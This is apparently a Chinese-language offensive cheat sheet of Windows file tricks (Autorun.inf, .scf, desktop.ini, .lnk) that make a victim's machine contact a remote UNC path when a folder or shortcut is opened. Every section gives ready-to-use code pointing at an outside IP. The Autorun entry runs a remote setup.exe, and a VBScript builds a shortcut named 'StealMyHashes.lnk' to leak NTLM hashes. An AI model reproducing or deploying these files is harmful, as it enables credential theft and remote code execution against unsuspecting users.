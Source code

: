 # Autorun.inf

从 Windows 7 开始，此功能被禁用。但是，您可以通过更改自动运行的组策略来启用。确保隐藏 Autorun.inf 文件才能工作。

```
[autorun]
open=\\35.164.153.224\setup.exe
icon=something.ico
action=open Setup.exe
```

# 外壳命令文件

您可以将其保存为 something.scf，打开文件夹资源管理器后，它会尝试解析图标的网络路径。

```
[Shell]
Command=2
IconFile=\\35.164.153.224\test.ico
[Taskbar]
Command=ToggleDesktop
```

# Desktop.ini

desktop.ini 文件包含应用于该文件夹的图标信息。我们可以滥用它来解析网络路径。一旦你打开文件夹，你应该得到散列。

```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```

在 Windows XP 系统中，desktop.ini 文件使用“IcondFile”而不是“IconResource”。

```
[.ShellClassInfo]
IconFile=\\192.168.0.1\aa
IconIndex=1337
```

# 快捷方式文件(。lnk)

我们可以创建一个包含网络路径的快捷方式，当您打开快捷方式时，Windows 将尝试解析网络路径。您也可以指定一个键盘快捷键来触发该快捷键。对于图标，您可以给出 Windows 二进制文件的名称，或者从 system32 目录中的 shell32.dll、Ieframe.dll、imageres.dll、pnidui.dll 或 wmploc.dll 中选择一个图标。

```
Set shl = CreateObject("WScript.Shell") 
Set fso = CreateObject("Scripting.FileSystemObject") 
currentFolder = shl.CurrentDirectory 
Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, "\StealMyHashes.lnk")) 
sc.TargetPath = "\\35.164.153.224\@OsandaMalith" 
sc.WindowStyle = 1 
sc.HotKey = "Ctrl+Alt+O" 
sc.IconLocation = "%windir%\system32\shell32.dll, 3" 
sc.Description = "I will Steal your Hashes" 
sc.Save
```
